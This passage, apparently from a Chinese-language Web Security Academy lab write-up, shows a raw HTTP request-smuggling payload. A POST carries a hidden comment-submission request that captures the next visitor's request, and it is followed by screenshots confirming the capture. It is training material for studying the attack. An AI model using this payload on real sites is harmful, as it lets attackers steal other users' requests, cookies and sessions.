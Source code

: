 请求报文 1

```plain
POST / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Connection: keep-live
Content-Length: 631

POST /en/post/comment HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Cookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0
Content-Length: 128
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123%40163.com&website=http%3A%2F%2Fwww.baidu.com&comment=
```

请求报文 2:

```plain
GET /capture-me HTTP/1.1
Host: YOUR-LAB-ID.h1-web-security-academy.net
```

[![](assets/1705301772-f76e92045df0f626a9853acc702cca53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183401-6e90fe64-b2c8-1.png)  
[![](assets/1705301772-f7577c9fda80a27596e5727c2eb6b4b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183411-7483a966-b2c8-1.png)  
回到浏览器刷新博客文章并在评论中可以看到已成功输出"GET /capture"请求的开始  